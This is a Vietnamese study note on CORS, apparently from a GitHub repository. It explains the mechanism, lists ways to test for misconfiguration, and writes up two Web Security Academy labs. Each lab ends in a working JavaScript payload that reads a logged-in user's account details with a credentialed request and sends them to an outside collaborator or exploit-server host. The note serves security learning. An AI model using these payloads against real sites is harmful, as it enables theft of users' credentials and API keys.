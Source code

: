 # **Cross-origin resource sharing (CORS)** #

## **Cross-Origin Resource Sharing (CORS) là gì?** ##

- CORS là một cơ chế dựa vào HTTP header, cho phép server chọn ra các origin (khác cái của chính nó) mà trình duyệt được phép tải tài nguyên về.

![](../Cross_site_scripting/img_xss/1.png)

- VD: front-end của <https://domain-a.com> sử dụng XMLHttpRequest (một đối tượng trong JS dùng để tương tác với server) để gửi request tới <https://domain-b.com/data.json>
  - Về vấn đề bảo mật, trình duyệt sẽ chặn cái request đến server khác gốc này, giả sử khi XMLHttpRequest và Fetch API cùng tuân theo SOP
  - Những web app sử dụng API như vậy sẽ chỉ có thể request tài nguyên từ chính origin của nó, trừ khi trong response của cái origin được request tới chứa CORS header
- Nếu không được triển khai cẩn thận có thể dẫn tới CSRF - Cross-site Request Forgery

**Cơ chế hoạt động của CORS**:
> **Trường hợp đơn giản nhất:**

![](../Cross_site_scripting/img_xss/2.png)

- Trang web <https://foo.example> muốn lấy tài nguyên từ web có origin <https://bar.other> thì trong đoạn code JS sẽ có kiểu như sau:

![](../Cross_site_scripting/img_xss/3.png)

![](../Cross_site_scripting/img_xss/5.png)

- `Access-Control-Allow-Origin` với giá trị `*`, tức là tài nguyên được request tới có thể được truy cập bởi mọi origin.

> **Preflighted request:**

- Preflight request là CORS request được browser tự động gửi khi có thêm các custom header (không phải header do user agent tự tạo). Nó dùng để kiểm tra xem server tài nguyên có cho phép request chứa giao thức đó và các header được thêm vào để truy cập vào tài nguyên hay không
- Preflight request là một request với giao thức OPTIONS, và có các header như:
  - Access-Control-Request-Method
  - Access-Control-Request-Headers
  - Origin

![](../Cross_site_scripting/img_xss/4.png)

> **Credentialed request:**

- Cách này dùng để tạo một request chứa credential của người dùng, thường là cookie
- Giả sử JS code có dạng như sau:

![](../Cross_site_scripting/img_xss/6.png)

- Ta thấy thuộc tính .withCredentials của thực thể invocation được set là true. Mặc định, trình duyệt sẽ bỏ qua response từ server mà không có header Access-Control-Allow-Credentials: true. Thế nên việc set true mới làm cho trình duyệt nhận response từ server
- Vậy là ta có request và response tương ứng:

![](../Cross_site_scripting/img_xss/7.png)

## **Các cách kiểm tra lỗ hổng CORS**
>
> ### **Reflected Origins**  

- Đặt Origin header: "Một url nào đó". Nếu `Access-Control-Allow-Origin` chấp nhận, điều đó có nghĩa là miền đó không lọc bất kỳ nguồn gốc nào.

![](./img_CORS/3.png)

> ### **Modified Origins**  

- Chúng ta có thể kiểm tra bằng cách thử các tên miền phụ `metrics.com.attack.com` hoặc `attackmetrics.com` hoặc `attack.metrics.com`

> ### **Trusted subdomains with Insecure Protocol**  

- Đây là một ý tưởng hay vì nếu một trong các tên miền phụ có lỗ hổng Cross-Site Scripting (XSS), nó sẽ cho phép kẻ tấn công đưa vào một tải trọng JS độc hại và thực hiện các hành động trái phép.
- Có thể thử thay đổi `http, https`

> ### **Null Originl**  

-Đặt Origin header thành giá trị null — Origin: null và xem liệu ứng dụng có đặt tiêu đề Access-Control-Allow-Origin thành null hay không. Nếu có, điều đó có nghĩa là nguồn gốc null được đưa vào danh sách trắng.

![](./img_CORS/4.png)

## **Các lỗ hổng phát sinh từ các sự cố cấu hình CORS**

- Nhiều trang web hiện đại sử dụng CORS để cho phép truy cập từ tên miền phụ và bên thứ ba đáng tin cậy. Việc triển khai CORS của họ có thể chứa sai sót hoặc quá dễ dãi để đảm bảo rằng mọi thứ đều hoạt động và điều này có thể dẫn đến các lỗ hổng có thể khai thác được.

> ### **CORS vulnerability with basic origin reflection**

- Dựa vào sự thiếu chặt chẽ trong thiết kế CORS. Sau khi tôi đã kiểm tra trang web thì tôi phát hiện khi tôi truy cập vào my account thì nó sẽ thực hiện gửi API để lấy dữ liệu json với `CORS Credentials` và tôi thực hiện tấn công lấy dữ liệu api gửi về cho tôi như sau:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a220090040acab0c0160c11000700cc.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        fetch('https://pd6iogkp2gdg2ixqaxb51tq3ruxtli.oastify.com',{method: 'POST',body:this.responseText})

    };
</script>
```

- Và khi quản trị viên đăng nhập hệ thống tôi đã lấy được apikey của admin vì nó đã gửi request đến cho tôi

![](./img_CORS/1.png)

> ### **CORS vulnerability with trusted insecure protocols**

- Đối với bài này lỗ hổng nằm ở CORS nó chấp nhận request từ tên miền phụ của trang web chứng minh bằng ví dụ sau đây của tôi:

![](./img_CORS/2.png)

- Vậy từ điều ấy ta có thể tấn công bằng cách tìm một tên miền phụ có thể tấn công xss.

```js
<script>
    document.location="http://stock.0a8300b903f3e4ccc4fbcf3e00e400e7.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8300b903f3e4ccc4fbcf3e00e400e7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac2002603bde42dc49dce930142006a.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=2"
</script>
```
